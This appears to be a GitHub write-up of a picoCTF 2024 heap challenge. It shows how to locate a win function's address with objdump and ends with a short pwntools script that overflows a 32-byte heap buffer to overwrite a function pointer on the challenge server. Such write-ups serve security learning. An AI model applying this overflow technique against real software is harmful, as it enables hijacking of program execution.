 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#heap_<br>

Can you handle function pointers?<br>
Download the binary [here](../chall).<br>
Download the source [here](../chall.c).

## Solution

First, I executed the source code to observe the output. I tried entering different option numbers to see the corresponding results.

![image](https://github.com/user-attachments/assets/acbf2097-01fa-42fb-bfdc-08d69c4b812f)<br>
**From the heap table, we can see that both addresses are the same. This indicates that 32 bytes can be used to reach the boundary.*

I then reviewed the source code to identify any possible way to obtain the flag. Here’s what I discovered:

![image](https://github.com/user-attachments/assets/186485dd-0f6a-47b1-a7d1-d637d8dbc306)<br>
**To retrieve the flag, we need to call the win function.*

In this case, we need to access the win function to obtain the flag. Therefore, we must locate the address of the win function. To do this, I used the command `objdump -D chall > output.txt` to export the output to a .txt file. Search for win in the output.txt file to find its address. Then, convert the address to little-endian format by using [endian converter](https://blockchain-academy.hs-mittweida.de/litte-big-endian-converter/).

> [!NOTE]
> When writing payload scripts, little-endian format must be used.

![image](https://github.com/user-attachments/assets/8c317638-ed8d-4628-8188-86c9ae43645d)<br>
**The highlighted part is the address of win function.*

```python
from pwn import *

p = remote('mimas.picoctf.net', 64646)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```
**This is the payload script that we'll use.*

Run the script in an environment, and you'll obtain the flag.

